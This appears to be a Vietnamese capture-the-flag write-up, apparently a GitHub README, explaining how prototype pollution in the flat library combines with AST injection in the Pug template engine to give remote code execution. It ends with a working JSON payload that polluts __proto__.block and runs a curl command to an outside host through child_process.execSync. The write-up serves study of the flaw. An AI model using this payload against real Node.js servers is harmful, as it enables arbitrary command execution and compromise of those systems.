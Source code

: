 # pug-ast
## Ý tưởng
### Prototype Pollution 
Tận dụng các lỗi Prototype Pollution để gây tác động tới các trang web 
sử dụng các thư viện cũ mà không filter input người dùng nên có thể bị 
chèn các thuộc tính tới các biến thông qua prototype của một đầu vào 
bất kỳ thường gặp nhất là các thư viện JSON.
### Tấn công AST của các template engine
Việc render các template của một template engine nói chung sẽ cần 
phân tích tạo ra các tokens, parse để tạo ra AST và từ đó generate ra mã nguồn 
để chạy tạo ra một page cho các engine.


[Abstract Syntax Tree](https://en.wikipedia.org/wiki/Abstract_syntax_tree)

Các thành phần của cây có thể bị tác động trong pha parse và genrate code.
Nếu không filter có thể dẫn đến việc bị tấn công.

## Thư viện lỗi
### Flat
Thư viện flat giúp tạo ra object từ JSON và ngược ra. Các phiên bản trước 
đây không check đầu vào ở hàm ```unflatten()``` nên đã dẫn đến lỗ hổng 
Prototype Pollution và chỉ được vá ở phiên bản 5.0.2 mới nhất.
### Pug
Là một template engine để tạo từ file pug ra file html với tham số được truyền.
Thư viện này xảy ra lỗ hổng khi cho phép chạy các mã khi một biến được được 
truyền tham số như một phần của AST dẫn đến có thể bị RCE và được vá 
tại phiên bản 3.0.1 mơi đây (mới nhất là 3.0.2)
### Cách giải
## Tìm API lỗi
Bài này có 2 API có lỗ hổng Prototype Pollution do sử dụng thư viện cũ và không filter là 
`/api/` và `/api/students/:id`

## Lỗi RCE
Thư viện tồn tại lỗi trong hàm generateCode của pha genrate thành mã nguồn
```js
<!-- /node_modules/pug-code-gen/index.js -->

if (debug && node.debug !== false && node.type !== 'Block') {
    if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
            js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
    }
}
```
Kh generate ra mã nguồn, trong khi duyệt các node của AST, complie sẽ để thêm trường ```node.line``` để phục vụ 
quá trình debug. Nếu ```node.line``` tồn tại và được thêm vào buffer.

Bình thường giá trị ```node.line``` nếu có là Integer nhưng có thể Injection AST
thành string và chèn vào mã nguồn bằng cách sử dụng các biến truyền vào template
để thực thi được mã tùy ý.

### JSON to RCE
Như vậy thỏa mã gồm có khả năng Prototype Pollution để thay đổi biến bất kỳ 
và thay đổi trường của các biến cần render trong pug engine thành 
mã có thể thay đổi được.

Payload:
```javascript
{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('curl https://biennd3.free.beeceptor.com/')"
    }
})
```
